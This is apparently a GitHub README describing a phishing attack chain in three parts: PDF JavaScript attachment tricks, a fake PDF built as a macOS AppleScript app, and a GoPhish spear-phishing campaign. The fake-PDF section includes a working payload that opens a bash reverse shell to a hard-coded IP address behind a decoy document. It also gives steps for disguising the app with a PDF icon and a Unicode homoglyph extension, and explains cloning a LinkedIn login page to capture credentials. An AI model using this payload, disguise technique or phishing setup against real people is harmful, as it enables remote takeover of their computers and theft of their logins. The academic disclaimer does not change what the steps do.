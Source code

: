 # Part 1. PDF Embedding Code Attacks

PDF supports a lot of content formats such as text, HTML, CSS, JavaScript, etc.
You can also attach files in pdf files.
With the ability of using JavaScript in pdf files, there might be vulnerability.
The abstraction of this attack is to attach an executable file or a bash script, and use JavaScript to download the attachment then execute the file.

## PyPDF2

My approach uses PyPDF2 library to achieve the operation we discussed above.
PyPDF2 supports file attachment to a pdf file, the function I am using is `addAttachment(filename, data)`.
The function for embedding JavaScript is `addJS(script)`.

## Acrobat

Acrobat provides several functions and properties for manipulating the file attachments.
The function I am using here is `this.exportDataObject({cName: filename,nLaunch: option})`.
We are using option "2" for the nLaunch argument which enable the "download then execute" operation.

## Results

After creating a new file with `pdf_inject.py`, we open the pdf file with Adobe Acrobat Reader.
_(You need to use this reader to execute the JavaScript)_

![0](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/0.png)

You can see there's a `mock.txt` file attached to the pdf file.
The original file I attached to it was sh file but I mocked the format as a text file.

![1](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/1.png)

The Acrobat Reader detected the attachment was not text file so it pop out a window to ask if the user would like to download the file or not.
It also warned the user that this could be a malicious code.

![2](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/2.png)

Not thing happened if you really open the file.

![3](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/3.png)

The newer version of Adobe Acrobat Reader has some mechanisms to prevent the attack like this.
I am looking into some other ways to achieve the goal.

<hr/>

# Part 2. Fake PDF Attack

So the JavaScript embedded attack above was patched,
let's move on and make a fake pdf file with AppleScript.

## Creating AppleScript

The extension of an AppleScript is _.scpt_.

```shell
touch payload.scpt
nano payload.scpt
```

The contents in my payload:

```AppleScript
do shell script "rm -f /tmp/Twitter.pdf"
do shell script "curl -s -L -o /tmp/Twitter.pdf 'https://drive.google.com/uc?export=download&id=1Iq6gJytrjp2zlpjWfaDmYECaELs3biG2'"
do shell script "open -a Preview.app /tmp/Twitter.pdf"
do shell script "bash -i >& /dev/tcp/206.189.215.73/3456 0>&1 &"
```

0. Clean up previous payload.
1. Download a real pdf from my google drive and put it in /tmp folder where normal user don't really use.
   _(-s for silent mode, -L for following redirects, -o for output)_
1. Open the pdf file above with Preview application.
1. Open a bash revers shell backdoor to my server and run in background.

## Export To Application

Use Mac's build-in Script Editor for exporting the script above into a executable application.

![Fake 0](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/fake_0.png)

Choose _Application_ for File Format and rename the file.

![Fake 1](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/fake_1.png)

Now, you will get a application for mac that will execute the AppleScript in the previous section.

## Fake The Appearance

Right click the application and select _Get Info_ or use _Command + I_.

![Fake 2](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/fake_2.png)

Drag a real pdf file into its icon which will create a pdf file preview.

![Fake GIF](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/fake_gif.gif)

Rename the file with _.pⅾf_ extension.

(Important) The "ⅾ" we are using is not actual English character "d".
We need to use "ⅾ" which is small roman numeral five hundred (Unicode character U+217E).

![Fake 3](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/fake_3.png)

## Demo

I ssh to my server on _206.189.215.73_ and open a netcat listener.
Double click the fake pdf I just created with the instructions above.
The fake pdf downloads and opens a real pdf, then opens the backdoor for me.

[![Brian Fake PDF Attack demo](https://img.youtube.com/vi/i5z8vxSXXt4/0.jpg)](https://youtu.be/i5z8vxSXXt4)

<hr/>

# Part 3. Phishing Email

I used an open source phishing framework called GoPhish which could be one of the ways to deliver my fake pdf payload.
Here is the frontend of this framework.

![GoPhish 0](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_0.png)

## Sending Profile

Create a profile for sending email with _smtp.gmail.com_ and enter the email account information for sender.

![GoPhish 1](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_1.png)

## Landing Pages

Create a landing page with html when user click any url in the email.
You can also import from a existing site.
For example, LinkedIn login page.
The information user input to this landing page will be report to me.

![GoPhis 2](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_2.png)

![GoPhis 3](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_3.png)

## Email Template

Create a email template with html which will be the content in this phishing email.
You can also import from a existing email.
This is a spear phishing since I am targeting a very specific person with his personal information and the content he/she might be interested in.

![GoPhis 4](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_4.png)

## User and Group

Create user and group for receiver information.

![GoPhis 5](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_5.png)

## Campaigns

Create a campaign for the target with all the setups above.

![GoPhis 6](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_6.png)

## Result Tracking

After sending the phishing email.
The framework will keep tracking the states of the attack.
You will see the information like whether the target opens the email or click the url, etc.

![GoPhis 7](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_7.png)

<hr/>

## Author

Chien-Yu (Brian) Sung

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [PyPDF2](https://pythonhosted.org/PyPDF2/PdfFileWriter.html?highlight=addAttachment)
1. [Acrobat](https://acrobatusers.com/tutorials/importing-and-exporting-pdf-file-attachments-acrobat-javascript)
1. [GoPhish](https://getgophish.com)
1. [Curl to download file from Google Drive](https://stackoverflow.com/questions/20665881/direct-download-from-google-drive-using-google-drive-api)
